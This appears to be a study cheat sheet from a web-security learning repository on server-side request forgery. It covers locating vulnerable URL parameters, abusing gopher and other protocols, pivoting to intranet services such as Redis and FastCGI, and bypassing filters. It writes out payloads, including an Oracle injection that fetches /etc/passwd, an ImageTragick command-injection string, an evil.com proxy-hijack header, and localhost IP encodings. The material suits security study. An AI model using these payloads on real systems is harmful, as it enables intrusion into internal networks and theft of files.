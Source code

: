 # SSRF
Server Side Request Forge  
Bypass the firewall and grope through the intranet  

![ssrf](https://github.com/shinmao/Web-Security-Learning/blob/master/SSRF/screenshot/SSRF.png)  
1. Find the vulnerable place > 2. with Protocol > 3. Apply to deeper attack > 4. Bypass

# Find the vulnerable place
**Controllable** URL parameter：url, src, imgURL, share, wap, link  
share the content via URL  
translate the context with online translator  
load the pic with URL  
**How to efficiently dig the vulnerable place?**  
Set up a **requestbin** to find whether request from server?  
Set up a **DNS Logger** to find whether DNS resolution?  
1. XXE(You can directly see in my XXE part)  
```php
<!ENTITY % file SYSTEM "file://url/xxx">
```  
[ref to OOB XXE](https://github.com/shinmao/Web-Security-Learning/tree/master/XXE#exploit)  

2. `file_get_contents($url)`(PHP)  
```php
$image = file_get_contents('http://self-ip');
```
[Day 20 - Stocking](https://www.ripstech.com/php-security-calendar-2017/#day-20)  

3. curl(PHP)  
in fact, from `curl -V` we can see the libcurl support many protocols  

4. Oracle UTL_HTTP  
```php
?id=1'||CTXSYS.DRITHSX.SN(user,substr(utl_http.request('http://example.com?download=/etc/passwd'),1,160))||'
```  

5. ImageTragick  
```php
...
fill 'url(https://example.com/";|ls "-la)'
...
```  
[ImageTragick](https://imagetragick.com/)  
CVE-2016-3718  
POC on Facebook  
We can find the code `<delegate decode="https" command="&quot;curl&quot; -s -k -o &quot;&o&quot; &quot;https:%M&quot;"/>`. Therefore, we can do command injection.  

"6. Header HTTP proxy  
According to CGI, headers in the request would be replaced with env variables  
e.g. Host -> $HTTP_HOST, Proxy -> $HTTP_Proxy  
This is the vul  
```php
GET
...
Proxy: http://evil.com/
```  
hijack the http connection  

In addition to find the potential parameter, we also can set up a server or DNS logger. If we get request from the server side, there might be vul to SSRF somewhere.


# with Protocol  
![](https://farm2.staticflickr.com/1774/43295065584_6cfa758570_b.jpg)  
gopher is an awesome protocol to attack intranet service  
[利用 Gopher 协议拓展攻击面-转载长亭科技](https://blog.chaitin.cn/gopher-attack-surfaces/)  
Jar is a protocol which can be used to create controllable temp file  
FTP or SMB can also be used on bruteforce of password  

# Apply to deeper attack  
Attack service built in intranet  
1. Struts2  
Struts2 is a Java-based MVC framework.  

2. ElasticSearch - port:9200  
CVE-2014-3120  
CVE-2015-1427  
CVE-2015-3337  
```php
http://example.com:9200/_plugin/head/../../../../../../etc/passwd
```  

3. Neo4j, CouchDB, MongoDB  
Visit API -> modify settings -> RCE  

4. Tomcat - port:8005  
SSRF with gopher  

5. Zabbix - port:10050  
SSRF with gopher  

6. Redis - port:6379  
Write shell with gopher -> write SSH key with SAVE -> write crontab with SAVE -> SET to exploit again  

7. FastCGI - port:9000  
```php
gopher://example.com:9000/....
```  

# Bypass  
I would check your schema, host, port  
* Bypass DNS limit:  
A special domain provider> `xip.io`  
DNS rebinding: Traditionally, SSRF filter would get host's IP with DNS resolution from URL. If the IP is legal, request with curl could be successful. Therefore, we can conclude that there are two times of DNS resolutions. We can return legal IP to server at the first time, and return illegal IP for request at the second time! Problem: Sometimes, a server in the public net won't take DNS resolution every times, but store in the cache.  

* Bypass ip limit:  
ip can be decimal, hexidecimal, or Octal  
```php
127.0.0.1
127.0.1
127.1
0.0.0.0
0.0
0
0x7f000001
2130706433
017700000001
```  
This tricks can be used to bypass wordpress protection on SSRF in CVE-2016-4029  

## Reference
* [New-Era-Of-SSRF-Exploiting-URL](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf)  
* [SSRF testing resources](https://github.com/cujanovic/SSRF-Testing)
